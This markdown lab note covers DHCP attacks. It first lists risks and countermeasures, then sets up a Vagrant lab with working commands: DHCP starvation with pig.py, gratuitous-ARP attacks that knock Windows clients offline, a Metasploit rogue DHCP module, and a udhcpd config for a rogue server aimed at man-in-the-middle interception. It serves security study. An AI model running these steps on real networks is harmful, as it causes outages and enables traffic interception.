

# DHCP Exploiting

## Introduction
* DHCP designed early 1990s. Based on BOOTP - created 1980.
* Run over Internet Protocol (IP) and User Datagram Protocol (UDP) &rarr; insecure
* Serious issue, sheer power of DHCP & critical configuration information

## DHCP Security concerns
 * **Unauthorized DHCP Servers**  
 Rogue DHCP server. Respond to client requests and supply them with spurious configuration information. Instruct clients to use rogue DNS or router
 * **Unauthorized DHCP clients**  
 Masquerade as legitimate DHCP client. Obtain information to compromise the network  
 Generate lot of bogus DHCP client requests to use up all IP addresses in server pool

## Recommended counter measures
* Provide security at lower layers. Prevent unauthorized servers and clients is careful control over physical access to the network: **layer 1 security**
* In case of wireless LANs, implement layer 2 security techniques.
* Use IPSec at layer 3 to provide authentication (UDP and IP)
* DHCP Authentication: June 2001, enhancements that preplaces normal DHCP messages with authenticated ones. Involves new DHCP option type (Authentication option). Many clients and servers don't support this new standard.
* Server settings: Ping address before assignation
* DHCP Snooping: Switch setting, block messages from none-trusted DHCP servers
* Port security: Trigger violation if >=x MAC on port is reached
* Dynamic ARP inspection

## POC
**DON'T BE STUPID**

### Steps
* DHCP assigns dynamic IP for 8 days (LAN) and 8 hours (WLAN) &rarr; Test
* DHCP is unauthenticated, and responds to DHCPDISCOVER messages
* Checks IP Pool for already leased address's based on MAC address of client/pool
* lets spam DHCPDISCOVER messages (MAC conflict - mac spoofing)
* send spoofed MAC address's in the DHCPDISCOVER packets repeatedly until the entire IP pool is exhausted
* gratuitous ARP is sent to the LAN, knocking all windows systems offline
* setup a rogue DHCP server to perform a MiTM attack
* set the DHCP options for the gateway to the Kali Linux machine
* launch an attack with SSLStrip or ettercap

### Tools
* Pig.py – Command line driven
* Yersinia – GUI driven
* DHCPStarv – Command line driven
* Scapy – Manual command line attacks
* Metasploit Rouge DHCP – command line driven, launches listening rouge DHCP server

### Network Concept

Windows Server 2016 - DHCP server
Hostname: winsrv.m123.local
IP: 192.168.56.50/24

Windows 10 - client
Hostname: wincli.m123.local
IP: dynamic

Ubuntu 16.04 - attacker
Hostname: nixcli001.m123.local
IP: 192.168.56.60

### Commands
* DHCP Starvation attack
 * Pig.py -d eth0
* Metasploit Rouge DHCP Server
 * Msfconsole
 * Use auxiliary/server/dhcp  
 * Show options  
 * Set options to correct router, netmask, dns, server ip and pool range

Add required vagrant boxes
```Bash
vagrant box add mwrock/Windows2016
vagrant box add senglin/win-10-enterprise-vs2015community
vagrant box add minimal/xenial64
```

Install plugin (looks broken for Win10/Win2016)
```Bash
vagrant plugin install vagrant-vbguest
```
Update the manual way: Copy "%PROGRAMFILES%\Oracle\VirtualBox\VBoxGuestAdditions.iso" manually to machine

Start up server instance with `vagrant up`  
After completion, server is setup and **should** serve DHCP leases. Test with client `vagrant up wincli`

## Starvation attack
Connect to nixcli client, become root and change into DHCPig folder

```Bash
sudo -s  
cd DHCPig
```
### Starve it
Use `ip a s` to identify 192.168.56.0 network. Start with `./pig.py -aiol -c enp0s8` to demonstrate attack
```Bash
Usage:
    pig.py [-h -v -6 -1 -s -f -t -a -i -o -l -x -y -z -g -r -n -c ] <interface>

Options:
    -a, --show-arp                 ... detect/print arp who_has (off)
    -i, --show-icmp                ... detect/print icmps requests (off)
    -o, --show-options             ... print lease infos (off)
    -l, --show-lease-confirm       ... detect/print dhcp replies (off)

    -c, --color                    ... enable color output (off)
```
When executed the script will perform the following actions:

* Grab your Neighbors IPs before they do   
	Listen for DHCP Requests from other clients if offer detected, respond with request for that offer.   

* Request all available IP addresses in Zone   
	Loop and Send DHCP Requests all from different hosts & MAC addresses  

* Find your Neighbors MAC & IP and release their IP from DHCP server   
	ARP for all neighbors on that LAN, then send DHCPReleases to server   


Finally the script will then wait for DHCP exhaustion, (that is no received DHCP OFFERs for 10 seconds)  and then


* Knock all Windows systems offline   
	gratuitous ARP the LAN, and since no additional DHCP addresses are available these windows systems should stay
offline.  Linux systems will not give up IP even when another system on LAN is detected with same IP.


  


> Our client still has his IP.


### Starve & GARP
Send gratious arps to network segment `./pig.py -aiol -grn -c enp0s8`
```Bash
Options:
-g, --neighbors-attack-garp    ... knock off network segment using gratious arps (off)
-r, --neighbors-attack-release ... release all neighbor ips (off)
-n, --neighbors-scan-arp       ... arp neighbor scan (off)
```
## Rouge DHCP
Configure rouge DHCP like the original one.

```Bash
cat << 'EOF' > /etc/udhcpd.conf
start           192.168.0.20
end             192.168.0.254

interface       enp0s8

opt     dns     8.8.8.8 8.8.4.4
option  subnet  255.255.255.0
opt     router  10.0.2.2   # Local server
option  domain  m123.local
option  lease   86400      # 1 day in seconds
EOF
```

Start service `systemctl start udhcpd`

## References
* [The TCP/IP Guide - DHCP Security Issues](http://www.tcpipguide.com/free/t_DHCPSecurityIssues.htm)
* [James Hemmings - ABUSING, & EXPLOITING DHCP](http://download.docslide.net/internet/abusing-exploiting-dhcp.html)
* [xenappblog - Configure DHCP with Powershell](https://xenappblog.com/2015/configure-dhcp-with-powershell/)
* [kamorin / DHCPig](https://github.com/kamorin/DHCPig)
* [TCP/IP Networking from the Wire Up](https://blogs.technet.microsoft.com/networking/2009/03/30/tcpip-networking-from-the-wire-up/)
* [4sysops - How to install a DHCP Server on Server Core](https://4sysops.com/archives/how-to-install-a-dhcp-server-on-server-core/)
* [Technet - Install the DHCP server role via PowerShell](https://blogs.technet.microsoft.com/teamdhcp/2012/08/31/installing-and-configuring-dhcp-role-on-windows-server-2012/)
* [Nightly Installers · rapid7/metasploit-framework Wiki](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers)
* [StefanScherer/vagrant-sandbox: My Vagrantfiles for sandbox tests](https://github.com/StefanScherer/vagrant-sandbox)
